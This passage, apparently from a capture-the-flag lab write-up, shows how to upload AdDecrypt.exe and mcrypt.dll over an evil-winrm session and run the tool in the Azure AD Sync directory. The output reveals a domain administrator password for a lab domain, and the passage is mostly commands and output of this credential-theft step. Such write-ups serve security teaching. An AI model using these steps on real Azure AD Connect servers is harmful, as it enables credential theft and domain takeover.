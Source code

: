 Next, we upload both `AdDecrypt.exe` and the required `mcrypt.dll` to the victim machine.

We can do this from our current `evil-winrm` session:

<br />

```bash
*Evil-WinRM* PS C:\users\mhope\Documents> upload AdDecrypt.exe
                                        
Info: Uploading /opt/AdDecrypt.exe to C:\users\mhope\Documents\AdDecrypt.exe
                                        
Data: 19796 bytes of 19796 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\users\mhope\Documents> upload mcrypt.dll
                                        
Info: Uploading /opt/mcrypt.dll to C:\users\mhope\Documents\mcrypt.dll
                                        
Data: 445664 bytes of 445664 bytes copied
                                        
Info: Upload successful!
```

<br />

Finally, we only need to run the `AdDecrypt.exe` binary with the `-FullSQL` flag:

⚠️ Note: It's important to run the binary from `C:\Program Files\Microsoft Azure AD Sync\Bin`, as the exploit relies on local configuration and dependencies that exist only in that directory.

<br />

```bash
*Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin> C:\Users\mhope\Documents\AdDecrypt.exe -FullSQL

======================
AZURE AD SYNC CREDENTIAL DECRYPTION TOOL
Based on original code from: https://github.com/fox-it/adconnectdump
======================

Opening database connection...
Executing SQL commands...
Closing database connection...
Decrypting XML...
Parsing XML...
Finished!

DECRYPTED CREDENTIALS:
Username: administrator
Password: d0m@in4dminyeah!
Domain: MEGABANK.LOCAL
```

<br />

